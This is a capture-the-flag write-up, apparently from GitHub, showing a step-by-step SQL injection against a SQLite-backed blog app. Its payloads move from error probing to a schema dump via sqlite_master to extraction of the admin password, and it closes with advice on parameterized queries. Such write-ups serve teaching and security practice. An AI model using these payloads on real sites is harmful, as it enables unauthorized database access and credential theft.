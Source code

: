 
# Challenge Objective

**Goal:** Retrieve the **admin password (or flag)** from a vulnerable web application by exploiting a **SQL injection vulnerability**.

The challenge involves a blog-like website with a registration form. By interacting with the site and testing inputs, you can discover a SQL Injection vulnerability that allows extracting sensitive information from the database.

---

### 1️⃣ Initial Observation

> **“Enter the website provided in the challenge and you'll be redirected to a blogpost-like webpage.”**

* You visit the provided URL and land on a typical blog site.
* You're asked to **register** a **username** and **password**, which suggests that the backend stores user credentials.
  
![Share Ideas Online - Google Chrome 5_7_2025 11_37_33 PM](https://github.com/user-attachments/assets/296318b2-aa37-4ea8-b065-c6402b470bab)

---

### 2️⃣ Register a Dummy Account

> **“Register a username and password.”**

* Create an account (e.g., `user: test`, `password: 1234`) to observe how the login or user interface behaves.
* You will likely be redirected to a personalized area where user posts or blog entries are displayed.

![Share Ideas Online - Google Chrome 5_7_2025 11_37_42 PM](https://github.com/user-attachments/assets/cc7b69ee-c11d-4382-8b38-2da01fba0804)

![Share Ideas Online - Google Chrome 5_7_2025 11_38_10 PM](https://github.com/user-attachments/assets/822d5855-e74b-4110-add0-0a148f8bb8da)

---

### 3️⃣ Check for SQL Injection Possibility

> **“Check if SQL injection is possible by typing a `'` or a `-` followed by something.”**

* Go back to the login or input form (most likely in a search or post interaction field).
* Try inserting suspicious input like:

  ```plaintext
  '
  ```

  or:

  ```plaintext
  a ' || 1 = '1'
  ```
  
![Share Ideas Online - Google Chrome 5_7_2025 11_39_43 PM](https://github.com/user-attachments/assets/960f77e5-d6db-4d9a-a300-c85bb121a569)
  
* You notice a **visible SQL error** (top-left of the page or somewhere in the response), confirming that the backend is not properly escaping input.

![Share Ideas Online - Google Chrome 5_7_2025 11_39_57 PM](https://github.com/user-attachments/assets/ecb76a9e-a66b-410e-85c8-4cad52f24c92)

> This reveals that **SQL Injection** is possible.

---

### 4️⃣ Identify the SQL Engine

> **“Try finding the SQL version used in the webpage by using: `version' || (select sqlite_version()));--`”**

 ![Share Ideas Online - Google Chrome 5_7_2025 11_41_21 PM](https://github.com/user-attachments/assets/fa07d64a-687d-458b-9cdb-a038f24c44d0)

* You craft an SQL injection payload using SQLite syntax:

  ```sql
  ' || (SELECT sqlite_version()));--
  ```

* What this does:

  * `'` closes the string.
  * `||` is SQLite's string concatenation operator.
  * `(SELECT sqlite_version())` fetches the database version.
  * `--` comments out the rest of the query.
 
    ![Share Ideas Online - Google Chrome 5_7_2025 11_41_27 PM](https://github.com/user-attachments/assets/1367150b-91de-460f-89f6-a02e056b2a95)


> This shows that the backend database is **SQLite**, not MySQL or PostgreSQL, which affects syntax.

---

### 5️⃣ List Tables from SQLite

> **“We need to find the tables used so we type: `DB' || (SELECT sql FROM sqlite_master));--`”**

* SQLite stores its **schema** in a special table called `sqlite_master`.

* To see table definitions, use:

  ```sql
  SELECT sql FROM sqlite_master;
  ```

* Injected into the input as:

  ```plaintext
  ' || (SELECT sql FROM sqlite_master));--
  ```
  
![Share Ideas Online - Google Chrome 5_7_2025 11_42_27 PM](https://github.com/user-attachments/assets/8efee97d-f4b3-482a-afc1-1d84e3340b59)

* The output will show table creation queries like:

  ```sql
  CREATE TABLE xde43_users (id INTEGER, username TEXT, password TEXT, role TEXT)
  ```
  
![Share Ideas Online - Google Chrome 5_7_2025 11_42_35 PM](https://github.com/user-attachments/assets/301349af-a002-4f15-a771-dac3f318754e)

## Now we know:

* Table name: `xde43_users`
* Relevant columns: `username`, `password`, `role`

---

### 6️⃣ Extract the Admin Password

> **“Create a query that searches for all passwords with users that have the admin role.”**

* You now want to extract the `password` of users where the `role = "admin"`:

  ```sql
  SELECT password FROM xde43_users WHERE role = "admin";
  ```

* SQL Injection payload becomes:

  ```plaintext
  ' || (SELECT password FROM xde43_users WHERE role="admin"));--
  ```
  
![Share Ideas Online - Google Chrome 5_7_2025 11_43_56 PM](https://github.com/user-attachments/assets/84103ec9-879b-4420-b96c-8d576138c3a1)

* What it does:

  * Injects a subquery that fetches the admin password.
  * `||` concatenates the result with the output.
  * The rest of the query is commented out using `--`.

 Once submitted, the **response page updates** and shows a **new post or message** containing the **admin password or flag**, such as:

```
flag245698
```

![Share Ideas Online - Google Chrome 5_7_2025 11_44_00 PM](https://github.com/user-attachments/assets/9ffec2aa-9aee-4bce-849f-607409aa3610)

---

## 🔐 Summary of Exploitation Flow

| Step | Action                                                    | Goal                            |
| ---- | --------------------------------------------------------- | ------------------------------- |
| 1    | Register account                                          | Access input vectors            |
| 2    | Inject `'` or `--`                                        | Confirm SQLi exists             |
| 3    | Use `SELECT sqlite_version()`                             | Detect SQLite backend           |
| 4    | Use `SELECT sql FROM sqlite_master`                       | Discover table and column names |
| 5    | Use `SELECT password FROM xde43_users WHERE role="admin"` | Extract the flag                |

---

## 🛠 SQL Injection Techniques Used

* **Error-based SQLi**: Initial `'` causes visible error output.
* **SQLite-specific syntax**:

  * `||` for string concatenation.
  * `sqlite_master` to enumerate schema.
* **Inline subquery extraction** to pull sensitive data into the response.

---

## ⚠️ Security Lesson

This challenge demonstrates **why input sanitization is critical**. The backend should:

* Use **parameterized queries**.
* Never interpolate user input into SQL strings.
* Sanitize output to avoid leaking errors.

---

